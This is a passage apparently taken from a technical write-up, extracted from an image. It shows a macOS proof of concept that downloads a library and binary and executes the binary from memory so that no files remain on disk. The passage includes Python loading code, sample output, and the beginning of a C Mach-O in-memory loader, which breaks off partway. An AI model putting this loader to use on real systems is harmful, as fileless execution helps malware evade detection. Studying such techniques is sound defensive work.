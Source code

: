 ```py
  mylib = ctypes.cdll.LoadLibrary(f.name)
  mylib.launch(b.name)
```

The output below shows the library and the `t1` binary are successfully downloaded and used to execute the target binary. These files disappear after the process exists.

```
$ python poc2.py
Hello, world!! I hope Santa doesn't catch me being naughty!
```

## The "loader" Library

This is the modified version of Stephanie's code that is used to load and execute the binary from memory.

```C
#include <fcntl.h>
#include <stdio.h>
#include <errno.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <sys/mman.h>

#include <mach-o/loader.h>
#include <mach-o/nlist.h>
#include <mach-o/dyld.h>

#define EXECUTABLE_BASE_ADDR 0x100000000
#define DYLD_BASE 0x00007fff5fc00000

int find_macho(unsigned long addr, unsigned long *base, unsigned int increment, unsigned int dereference) {
	unsigned long ptr;

	// find a Mach-O header by searching from address.
	*base = 0;
		
	while(1) {
		ptr = addr;
		if(dereference) ptr = *(unsigned long *)ptr;
		chmod((char *)ptr, 0777);
		if(errno == 2 /*ENOENT*/ &&
			((int *)ptr)[0] == 0xfeedfacf /*MH_MAGIC_64*/) {
			*base = ptr;
			return 0;
		}

		addr += increment;
	}
	return 1;
}

int find_epc(unsigned long base, struct entry_point_command **entry) {
	// find the entry point command by searching through base's load commands

	struct mach_header_64 *mh;
	struct load_command *lc;

	*entry = NULL;

```